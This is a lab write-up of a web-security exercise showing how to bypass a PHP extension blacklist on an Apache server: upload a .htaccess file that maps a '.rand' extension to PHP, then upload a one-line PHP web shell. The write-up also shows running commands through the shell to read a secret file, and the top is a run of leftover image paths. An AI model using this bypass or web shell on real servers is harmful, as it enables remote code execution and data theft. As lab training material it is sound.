










# Lab: Web Shell Upload via Extension Blacklist Bypass

---

**Vuln** — The image upload function uses an extension blacklist (blocks `.php`) but doesn't block everything, and the server is Apache — so we can override config with `.htaccess`.

**Goal** — Upload a PHP web shell, read `/home/carlos/secret`, and submit it.

**Creds** — `wiener:peter`

---

### Steps

1. **Login and find the upload panel**
   - 

2. **Try uploading `payload.php`** — server blocks `.php` extension
   - 

3. **Try `.png`** — image files are accepted, so only extension is validated (not content)
   - 

4. **Try `.php3`** — file uploads but doesn't execute (server only runs `.php`)
   - 

5. **Notice the server is Apache** — response header shows `Apache/2.4.41 (Ubuntu)`, which means `.htaccess` overrides are possible
   - 

6. **Upload a `.htaccess` file** to tell Apache to execute `.rand` files as PHP
   - 
   - `.htaccess` uploaded successfully
   - 

   ```
   AddType application/x-httpd-php .rand
   ```

7. **Upload `payload.rand`** with PHP code — now Apache treats it as PHP
   - 
   - Open the file in browser → RCE confirmed (`whoami` → `carlos`)
   - 
   - Read the secret via `cat /home/carlos/secret`
   - 

8. **Submit the secret → Lab solved ✅**
   - 

---

### Files Used

| File | Purpose |
|------|---------|
| `.htaccess` | Maps `.rand` extension to PHP handler |
| `payload.rand` | Web shell — `<?php echo shell_exec($_GET['cmd']); ?>` |
| `payload.php` | Original payload (blocked by blacklist) |

```check Poc.py for automate this attack```